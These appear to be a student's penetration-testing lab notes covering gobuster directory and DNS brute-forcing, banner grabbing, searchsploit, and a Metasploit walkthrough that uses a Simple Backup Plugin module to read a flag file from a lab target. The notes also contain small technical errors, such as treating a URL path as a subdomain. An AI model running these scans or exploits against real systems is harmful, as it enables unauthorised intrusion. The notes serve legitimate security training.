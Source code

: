 # WEB ENUMERATION


**Gobuster tool**
GoBuster is a versatile tool that allows for performing DNS, vhost, and directory brute-forcing. The tool has additional functionality, such as enumeration of public AWS S3 buckets. 


**1. Directory Enumeration:**
directory brute forcing: dir brute forcing is specified by the ``dir`` flag
```
gobuster dir -u ip_address -w wordlists
```
Gobuster Status Codes:
| status code | Description | 
| --- | --- |
| 200 | web resource's request was successful |
|  403  | forbidenn to access the web resource |
| 301 | indicates that we are being redirected(not failure) |


```
gobuster dir -u http://83.136.251.68:33315 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

**2. DNS SubDomain Enumeration**
In subdomains E.g domain: zetech.ac.ke get subdomain: zetech.ac.ke/admin 
subdomains are used to host resources(important|relevant)  such as admin panels or applications with additional functionality that could be exploited. 
Gobuster provides the ``dns`` option followed by the ``-d`` flag for enumerating/testing subdomains
**when using dns enumeration use: ``domain_name.com`` or ``ip_address`` specifically**

```
gobuster dns -d  ip_address/web_url  -w wordlist
```

**Banner Grabbing/Web Server Headers**  
banner grabbing is detecting the specific service on a server/web service. This can help in identifying vulnerabilties for a specific server/service. One can use
client URL : culr ```curl -IL web_address```

EyeWitness, which can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.

**Whatweb**
whatweb is used to extract the version of web servers, supporting frameworks and applications.


### **TASKS**
perform web enumeration for the following: 83.136.251.68:33315



# public exploits
after finding services or applications running on a target machine or server, we proceed to check if they have any vulnerability

Tools Used in checking vulnerability:  
- searchsploit:
(already installed in kali) which we can use to search for public vulnerabilities/exploits for any application.
We can install it with the following command: ``sudo apt install exploitdb -y``
**Use:**    
``searchsploit openssh 7.2`` : ``searchsploit(command) service_version``

- [Rapid7](https://www.rapid7.com/db/)
- [ExploitDB](https://www.exploit-db.com/)
- [Vulnerability_Vub](https://www.vulnerability-lab.com/)


**Metasploit Primer**
The Metasploit Framework (MSF) contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. MSF has many other features, like:
Running reconnaissance scripts to enumerate remote hosts and compromised targets
Verification scripts to test the existence of a vulnerability without actually compromising the target
Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
Many post-exploitation and pivoting tools


to run metasploit framework use:
```msfconsole``
To search for a specific exploit we use: ``search exploit exploitName`` E.g ``search exploit EternalBlue``

After getting the information on the service vulnerablity use the following:
``use given exploit`` to view information use :``info index_number_exploit``
View what is required to run the exploit : ``required === YES`` make sure you set this.
``check``: command is used to check if the target is vulnerable . note : not all exploits have check for avialability
``run`` || ``exploit`` to initiate the attack(exploit) on the given vulnerability
meterpreter: is used to launch a interactive shell with the target(remote|phsical) machine



## **SOLVED PUBLIC EXPLOITS**
run nmap to recon:
```
sudo nmap -sC -sV  ip_address
```
always use sudo to skip handshake 3 way

```
# go to website
# check vulnerability for the given application : Simple Backup Plugin 2.7.10
# run
msfconsole

# check vulnerability
> search Simple Backup Plugin 2.7.10
> use vulnerability_index_number
> show options

# set rhost and rport to your target machine
# set FILEPATH to /flag.txt
set FILEPATH /flag.txt
run
# cd to diretory : file saved
cat fileName
